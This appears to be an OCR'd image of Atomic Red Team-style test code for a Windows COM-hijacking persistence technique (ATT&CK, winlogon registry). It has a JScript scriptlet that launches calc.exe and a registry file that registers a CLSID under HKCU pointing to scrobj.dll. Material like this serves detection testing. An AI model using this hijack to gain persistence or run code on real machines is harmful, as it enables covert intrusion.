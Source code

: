 **ATT&CK: Privilege Persistence-2).Windows利用注册表权限维-winlogon COM劫持**

AtomicRedTeam.sct:

\<?XML version="1.0"?\>

\<scriptlet\>

\<registration

description="AtomicRedTeam"

progid="AtomicRedTeam"

version="1.00"

classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"

remotable="true"

\>

\</registration\>

\<script language="JScript"\>

\<![CDATA[

var r = new ActiveXObject("WScript.Shell").Run("calc.exe");

]]\>

\</script\>

\</scriptlet\>

COMHijack.reg:

Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\AtomicRedTeam.1.00]

\@="AtomicRedTeam"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\AtomicRedTeam.1.00\\CLSID]

\@="{00000001-0000-0000-0000-0000FEEDACDC}"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\AtomicRedTeam]

\@="AtomicRedTeam"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\AtomicRedTeam\\CLSID]

\@="{00000001-0000-0000-0000-0000FEEDACDC}"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\CLSID\\{00000001-0000-0000-0000-0000FEEDACDC}]

\@="AtomicRedTeam"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\CLSID\\{00000001-0000-0000-0000-0000FEEDACDC}\\InprocServer32]

\@="C:\\\\WINDOWS\\\\system32\\\\scrobj.dll"
